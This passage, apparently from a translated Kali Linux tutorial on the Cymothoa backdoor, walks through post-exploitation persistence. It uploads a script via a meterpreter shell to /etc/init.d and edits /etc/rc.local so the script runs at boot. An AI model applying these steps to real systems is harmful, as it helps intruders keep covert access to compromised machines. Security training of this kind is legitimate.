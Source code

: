 The Script

通过按 Cntrl+c &返回到 meterpreter shell，将脚本上传到/etc/init.d

```
meterpreter> upload cym.sh /etc/init.d/ <replace cym.sh by your filename>
```

通过给予 shell command & change 权限，再次进入 shell。

```
meterpreter> shell 
chmod +x /etc/init.d/cym.sh <replace by your file>
```

[![cymothoa](img/0878dd4f545dcbe85baf6ebd8617c6c8.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa7/)

Uploading the Script

现在是最重要的部分。我们必须让脚本在启动时运行。这很简单，只需在/etc/rc.local 中添加一个条目。

此外，如果我们对文件(rc.local)进行 cat，那么在末尾会有一条语句“exit 0”。在此之后附加的任何语句都不会被执行。所以我们必须删除最后一行，添加新行，然后添加旧的退出行。

```
command: sed -i '$d' /etc/rc.local 
command: echo "sh /etc/init.d/cym.sh" >> /etc/rc.local 
command: echo "exit 0" >> /etc/rc.local
```

通过以下方式确保

```
command: tail /etc/rc.local
```

[![cymothoa](img/2f79a23d67f0c68e286fee03c89b3985.png)](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa9/)
